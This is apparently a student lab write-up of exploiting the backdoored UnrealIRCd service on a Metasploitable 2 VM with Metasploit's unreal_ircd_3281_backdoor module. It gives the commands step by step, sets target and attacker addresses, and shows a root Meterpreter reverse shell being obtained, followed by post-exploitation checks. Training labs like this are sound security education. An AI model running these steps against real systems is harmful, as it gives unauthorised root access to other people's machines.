








# Metasploitable Lab 3 — Exploiting UnrealIRCd Backdoor with Metasploit

## Objective

The objective of this lab was to exploit a backdoored UnrealIRCd service using the Metasploit Framework to gain remote command execution and a Meterpreter session on the target system.

This demonstrates how attackers use exploitation frameworks to automate attacks against known vulnerabilities.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

### Lab Network Topology
```
Internet

|

Kali Linux (eth0 - NAT)

|

Kali Linux (eth1 - Host-only)

|

192.168.56.0/24 Lab Network

|

Metasploitable 2
```

---

## Tools Used

| Tool | Purpose |
|------|--------|
| Metasploit Framework | Exploitation and payload delivery |
| Nmap | Service identification |

---

# Step 1 — Identifying the Vulnerable Service

From previous reconnaissance:

```
6667/tcp open irc UnrealIRCd
```

The UnrealIRCd service is an IRC server that contains a known backdoor vulnerability.

---

## Vulnerability Overview

A malicious version of UnrealIRCd was distributed with a hidden backdoor.

This backdoor allows attackers to execute system commands by sending specially crafted data to the IRC service.

This is an example of a supply chain attack, where legitimate software is compromised before distribution.

---

# Step 2 — Starting Metasploit

## Command Used

```bash
msfconsole
```


---

## Command Breakdown

| Option | Meaning |
|--------|--------|
| `msfconsole` | Launch the Metasploit Framework interactive console |

---

# Step 3 — Searching for the Exploit Module

## Command Used

```bash
search unrealirc
```



---

## Command Breakdown

| Option | Meaning |
|--------|--------|
| `search` | Search Metasploit modules |
| `unrealirc` | Keyword to find relevant exploits |

---

## Result

```
exploit/unix/irc/unreal_ircd_3281_backdoor
```

---

# Step 4 — Selecting the Exploit

## Command Used

```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
```



---

## Command Breakdown

| Option | Meaning |
|--------|--------|
| `use` | Load a specific exploit module |
| Module path | Identifies the exploit to use |

---

# Step 5 — Viewing Exploit Options

## Command Used

```bash
show options
```

---

## Important Parameters

| Option | Description |
|--------|------------|
| RHOSTS | Target IP address |
| RPORT | Target port (default 6667) |
| LHOST | Attacker IP address |

---

# Step 6 — Configuring the Exploit

## Commands Used

```bash
set RHOSTS 192.168.56.3
set LHOST 192.168.56.2
```



---

## Command Breakdown

| Option | Meaning |
|--------|--------|
| `set` | Assign value to an option |
| `RHOSTS` | Target system |
| `LHOST` | Local attacker machine |

---

# Step 7 — Running the Exploit

## Command Used

```bash
run
```



---

## What Happens

- Metasploit connects to the IRC service on port 6667  
- A malicious payload is sent to trigger the backdoor  
- The target system executes the payload  
- A reverse connection is established back to the attacker  

---

## Result

```
Meterpreter session 1 opened (192.168.56.2:4444 → 192.168.56.3)
```

This confirms successful exploitation and session creation.

---

# Step 8 — Interacting with Meterpreter

Meterpreter provides a post-exploitation environment with its own command set.

## Commands Used

```bash
getuid
```

```bash
sysinfo
```



---

## Results

```
Server username: root
```

```
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
```

---

# Step 9 — Accessing a System Shell

## Command Used

```bash
shell
```

---

## Verification

```bash
whoami
```



Output:

```
root
```

---

# Step 10 — Post-Exploitation Verification

Additional commands were executed:

```bash
id
```

```bash
uname -a
```

```bash
ls /
```



---

## Key Findings

- The UnrealIRCd service contained a backdoor vulnerability  
- Exploitation resulted in remote command execution  
- A Meterpreter session was established  
- A reverse shell connection was created  
- Root-level access was obtained  

---

## Security Concepts Learned

This lab demonstrated several key cybersecurity concepts:

- **Remote Code Execution (RCE)** — Executing commands on a remote system  
- **Metasploit Framework Usage** — Automating exploitation workflows  
- **Exploit Modules** — Prebuilt scripts targeting known vulnerabilities  
- **Reverse Shells** — Target connects back to attacker  
- **Meterpreter** — Advanced post-exploitation framework  
- **Supply Chain Attacks** — Compromised software distribution  

---

## Lessons Learned

- Exploitation frameworks can automate complex attacks  
- Correct configuration of exploit parameters is critical  
- Reverse shells are commonly used to bypass network restrictions  
- Meterpreter provides powerful post-exploitation capabilities  
- Understanding both manual and automated exploitation is important for cybersecurity professionals  